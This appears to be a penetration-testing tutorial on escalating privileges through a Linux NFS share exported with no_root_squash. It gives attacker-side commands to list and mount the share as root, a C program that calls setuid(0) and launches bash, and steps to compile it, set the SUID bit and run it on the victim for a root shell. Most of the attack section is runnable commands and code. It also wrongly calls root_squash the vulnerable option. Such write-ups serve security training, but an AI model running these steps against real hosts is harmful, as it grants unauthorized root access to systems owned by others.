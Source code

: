 #### What is NFS (Network File Shares)
The **Network File Sharing (NFS)** protocol in Linux systems ***allows users to share files, directories, and systems over a network***. NFS enables users to ***access remote systems locally*** when mounted and transfer files to and from machines.

#### NFS Shares
**List NFS shares exported by the target**
```bash
showmount -e <target-ip>
```
- Result can be mounted by any user on the internet.

#### Confirm the Configuration of the NFS server
```bash
cat /etc/exports
```
- `root_squash:` this options is **vulnerable**.

#### Root Squashing
**Root squashing** is an NFS security feature that ***prevents remote root users from having root access on mounted file shares***. Instead, their ***privileges are downgraded*** to the low-privilege `nobody` user, ensuring they can't modify files as root. However, if the NFS share is configured with `no_root_squash`, ***root squashing is disabled***, allowing remote root users full access to the share which can pose a security risk.

#### Privilege Escalation
**Mounting NFS Shares**
To exploit an NFS share with `no_root_squash` enabled, you ***mount the share from your kali machine as root***, giving you ***root-level access*** to the target's shared directory. By mounting it locally (e.g., to `/tmp/<foldername>`), any file operations you perform are reflected directly on the target system's `/usershare` directory.

**Attacker Machine**
`root is required for this task.`
```bash
sudo su
mkdir /tmp/<foldername>
```

**Mount the NFS share onto your directory**
```bash
mount -t nfs <target-ip>:/share /tmp/<foldername>
```

Now, any files you add to `/tmp/<foldername>` will be automatically added to the `/usershare` folder on the target.
- Create a test file inside `/tmp/<foldername>/test`.
- You should see a test file inside `/usershare` on the target machine.

`If there are no files in the directory, there's no privilege escalation route. However, follow the below ...`

#### SUID Binaries
**Move to the mounted directory on your local machine**
```bash
cd /tmp/<foldername>
```

**Copy the `/bin/bash` binary to this directory to launch a shell on the remote system**
```bash
cp /bin/bash ./bash
```

`Using your system's **default Bash binary** may not be compatible with all targets. In that case, create your own binary.`

**C script that launches a shell as the root user (UID 0)**
```bash
vim bash.c
```

```c
#include <stdlib.h>
#include <stdio.h> 
#include <sys/types.h> 
#include <unistd.h>
int main(void) { 
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

**Compile the code into an executable**
```bash
gcc -o bash bash.c
```

**Ensure the binary is executable and grant it SUID permissions**
```bash
chmod +x bash
chmod +s bash
```

**Victim Machine**
```bash
cd /usershare
ls -la bash # confirm the file permissions remain the same
```

**Run the Binary**
```bash
./bash -p
```


